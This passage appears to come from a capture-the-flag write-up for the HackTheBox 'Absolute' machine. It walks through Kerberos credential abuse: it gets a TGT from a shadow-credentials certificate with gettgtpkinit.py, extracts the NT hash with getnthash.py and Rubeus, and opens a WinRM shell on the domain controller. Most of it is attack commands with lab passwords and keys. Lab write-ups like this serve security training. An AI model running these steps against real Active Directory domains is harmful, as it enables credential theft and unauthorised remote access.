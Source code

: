 ```bash
python3 ./gettgtpkinit.py -cert-pfx ../pywhisker/luUEOlxx.pfx -pfx-pass p9nq1oiCzfgRbOWKMZWQ absolute.htb/winrm_user winrm_user.ccache
```

![](https://i.imgur.com/yWopUeR.png)

Export the TGT ticket

![](https://i.imgur.com/VUrQynT.png)

```bash
python3 ./getnthash.py -key 1b9d937e95c70cc1dd37ad5c67be8d6ff7617fb8438d012236e0f4b3e1cb1e91 absolute.htb/winrm_user
```
![](https://i.imgur.com/zVrMzSq.png)

This can also be doing through rubeus by transferring the pfx file and asking for a tgt with the nthash

```powershell
Rubeus.exe asktgt /user:winrm_user /certificate:luUEOlxx.pfx /password:p9nq1oiCzfgRbOWKMZWQ /domain:absolute.htb /domaincontroller:dc.absolute.htb /getcredentials /show
```

![](https://i.imgur.com/Qo59peP.png)

![](https://i.imgur.com/abQbtm1.png)

We can't really do much with the NThash but thet TGT can be helpful, we can use that on WinRM to get a shell for that I found a ruby script which works with kerberos for winrm 

![](https://i.imgur.com/uCDBKtw.png)

After cloning the repo we will run into a problem

```ruby
winrm_kerb_shell.rb -s dc.absolute.htb -r ABSOLUTE.HTB
```

![](https://i.imgur.com/mWXz28C.png)

This can be resolved by following this which tells to add the domain name in capital in the hosts file

![](https://i.imgur.com/HXYozME.png)

https://github.com/edenhill/librdkafka/issues/2117

Now the script will work perfectly

![](https://i.imgur.com/oInh9gY.png)

After authenticating with winrm service this will save the service principal for winrm and we can use evil-winrm

